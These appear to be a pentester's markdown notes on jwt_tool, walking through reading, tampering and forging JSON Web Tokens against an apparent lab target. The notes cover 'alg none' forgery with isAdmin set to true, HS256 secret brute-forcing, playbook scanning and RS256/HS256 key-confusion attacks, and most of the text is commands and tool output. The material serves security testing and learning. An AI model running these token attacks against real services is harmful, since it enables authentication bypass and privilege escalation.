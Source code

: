 # JWT_Tool

## Install
See GitHub

## Usage

Many commands return a string similar to 'jwttool<alphanumeric>'
The request used can be returned:
```shell
python3 jwt_tool.py -Q "jwttool_fb724ea7181908c94f5a2607dc785cf"
```


### Read the token
```shell
jwt_tool "<JWT>"
```

### None algorithm test
Create tokens for a vulnerability in the JWT implementation where the server incorrectly allows tokens with the "alg": "none" algorithm to bypass signature validation.  

Creates tokens with the 'none' algorithm
  - 4 tokens with various spellings of 'none'
    - none
    - None
    - NONE
    - nOnE
  - removes signature part of the token

```shell
jwt_tool "<JWT>" -X a 
```

### Tamper with the token
Allows editing the token header and payload
Burp supports this as well

```shell
jwt_tool "<JWT>" -T
```

Edit algorithm to 'none' and change userId to admin and isAdmin to true
Original
eyJpYXQiOjE3MzI0NzMxNzMsImlzcyI6ImxvY2FsaG9zdCIsImV4cCI6MTczMjQ4MjE3MywidXNlcklkIjoic2VjdXJlc3RvcmUiLCJpc0FkbWluIjoiZmFsc2UifQ

Tampered
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJpYXQiOjE3MzI0NzMxNzMsImlzcyI6ImxvY2FsaG9zdCIsImV4cCI6MTczMjQ4MjE3MywidXNlcklkIjoiYWRtaW4iLCJpc0FkbWluIjp0cnVlfQ.

### HS256 Brute force
jwt_tool "<JWT>" -C -d <wordlist>

Token:
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE3MzI0ODA4NDUsImlzcyI6ImxvY2FsaG9zdCIsImV4cCI6MTczMjQ4OTg0NSwidXNlcklkIjoiYWRtaW4iLCJpc0FkbWluIjoidHJ1ZSJ9.txbUYuqhvcZdYOo0bBQeExVlaeiuCSd7rB7g1btyaEU

secret : 123456

```shell
jwt_tool eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE3MzI0ODA4NDUsImlzcyI6ImxvY2FsaG9zdCIsImV4cCI6MTczMjQ4OTg0NSwidXNlcklkIjoiYWRtaW4iLCJpc0FkbWluIjoidHJ1ZSJ9.txbUYuqhvcZdYOo0bBQeExVlaeiuCSd7rB7g1btyaEU -C -d numbers.txt
```

```text
[+] 123456 is the CORRECT key!
```

### Scanning

Can scan for 

Look for text in RED for identified issues

Example
```shell
python3 jwt_tool.py -t <target> -rh "Authorization: Bearer <JWT>" -M at -cv
```
Args:
  - -M : playbook scan
    - at : run all tests
  -cv : canary value, a text value expected in a successful use of the token

```shell
python3 jwt_tool.py -t http://192.168.56.101/v3/ -rh "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpYXQiOjE3MzI0ODE4NTAsImlzcyI6ImxvY2FsaG9zdCIsImV4cCI6MTczMjQ5MDg1MCwidXNlcklkIjoic2VjdXJlc3RvcmUiLCJpc0FkbWluIjoiZmFsc2UifQ.hviPDcKdEQm-sfEU2CBmMsyaivneN76f5RUkX_wBCWemsaxeeoiOj7ajCAhQ2ciBE3P2D0IiwyHjgaO2vDpMmSrsL9pEsfiVmf7P7ef88_Ekx6OHEzxw1ExuRknaewZY_I5O5suWime5Wyf9WEaHIBVPs0ewJpmp0vk0MgK1xc1zSN-8mkxocM13tzcsWCw66QTFna57lILw6jLTXmJzZBYd2UwVmbGMBWWg47BG4jGQTMuD-4nhCrt1x4pO1acGwuYsQ0wvs8bGlEjr2ao-2FNIL8qbhxi9IBg3nrJrLZbHPZubd8aTpTCJB0J7y39MEC7aolNya05-EkkDYquvxg" -M at -cv "creditCard"
```


### Signing Keys

#### HS256

Sign with a secret
JWT should just be header and payload values

Example:
```shell
jwt_tool "<JWT>" -S hs256 -p jwt-secret-key
```

Example:
```shell
jwt_tool "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpYXQiOjE3MzI0ODE4NTAsImlzcyI6ImxvY2FsaG9zdCIsImV4cCI6MTczMjQ5MDg1MCwidXNlcklkIjoic2VjdXJlc3RvcmUiLCJpc0FkbWluIjoiZmFsc2UifQ." -S hs256 -p "mySecret123"  
```

Returns:
```text
jwttool_1112c3dc36cac9d7ed081603083d3c82 - Tampered token - HMAC Signing:
[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE3MzI0ODE4NTAsImlzcyI6ImxvY2FsaG9zdCIsImV4cCI6MTczMjQ5MDg1MCwidXNlcklkIjoic2VjdXJlc3RvcmUiLCJpc0FkbWluIjoiZmFsc2UifQ.dXelEBdBwDXUJehNWiWQsCsRBufltkZZ9sBpv0f5X7g 
```

#### RS256

Requires a private key  
  - JWT should just be header and payload values

Example:
```shell
jwt_tool "<JWT>" -S -pr <private key>
```

Code:
```shell
jwt_tool "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpYXQiOjE3MzI0ODE4NTAsImlzcyI6ImxvY2FsaG9zdCIsImV4cCI6MTczMjQ5MDg1MCwidXNlcklkIjoic2VjdXJlc3RvcmUiLCJpc0FkbWluIjoiZmFsc2UifQ." -S rs256 -pr ~/rsa-keys/private.pem  
```

Returns:
``` text
jwttool_eee27528a3f9e43a199c30a7270e936e - Tampered token - RSA Signing:
[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpYXQiOjE3MzI0ODE4NTAsImlzcyI6ImxvY2FsaG9zdCIsImV4cCI6MTczMjQ5MDg1MCwidXNlcklkIjoic2VjdXJlc3RvcmUiLCJpc0FkbWluIjoiZmFsc2UifQ.m_cpU3eFZEhMfD_J29O_6YHLjjxXNPiRNcIBSwoc41wAGC713i1aSLcXbN4DZOg6Qs_Nt_zUAQM2SFU6mIsAsm4tv62BkCecy7SVjpnOy-umQyBTgHvb6b88tdKX4vf5me_RhJqSkJGYIhjn2-zjz1Z_aLGcZhDX7Dt8Npe8OF8CZI9ZOhW8Cuk7YMbPWHZQ2tEE4xQjZkf21RbUyW7hZNSLVWuUYhvHpZ9t31GZ_a4yOM7oFL_rJhhv_zmeKqEMi07ZU0muTMopXeH5aTXlpvsEdUAHZwqN3fWWMfrkMhQG5Uj3hK5CvKOj04sbkZKbsgNjgNo9nlepltl2GBrOzw
```

### Key Confusion

Requires a public key

Example  
```shell
jwt_tool "<JWT>" -X k -pk <public key> 
```

```shell
jwt_tool "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpYXQiOjE3MzI0ODE4NTAsImlzcyI6ImxvY2FsaG9zdCIsImV4cCI6MTczMjQ5MDg1MCwidXNlcklkIjoic2VjdXJlc3RvcmUiLCJpc0FkbWluIjoiZmFsc2UifQ.hviPDcKdEQm-sfEU2CBmMsyaivneN76f5RUkX_wBCWemsaxeeoiOj7ajCAhQ2ciBE3P2D0IiwyHjgaO2vDpMmSrsL9pEsfiVmf7P7ef88_Ekx6OHEzxw1ExuRknaewZY_I5O5suWime5Wyf9WEaHIBVPs0ewJpmp0vk0MgK1xc1zSN-8mkxocM13tzcsWCw66QTFna57lILw6jLTXmJzZBYd2UwVmbGMBWWg47BG4jGQTMuD-4nhCrt1x4pO1acGwuYsQ0wvs8bGlEjr2ao-2FNIL8qbhxi9IBg3nrJrLZbHPZubd8aTpTCJB0J7y39MEC7aolNya05-EkkDYquvxg" -X k -pk ~/rsa-keys/public.pem 
```

Returns:
```text
File loaded: /home/bikeride/rsa-keys/public.pem
jwttool_fb724ea7181908c94f5a2607dc785cf2 - EXPLOIT: Key-Confusion attack (signing using the Public Key as the HMAC secret)
(This will only be valid on unpatched implementations of JWT.)                                                                                                                     
[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE3MzI0ODE4NTAsImlzcyI6ImxvY2FsaG9zdCIsImV4cCI6MTczMjQ5MDg1MCwidXNlcklkIjoic2VjdXJlc3RvcmUiLCJpc0FkbWluIjoiZmFsc2UifQ.Ma27_tZTWfFe1dR3w4713-eOA2xgkrLPpNe5pM9fPwg  
```

### KID Attacks

TBD
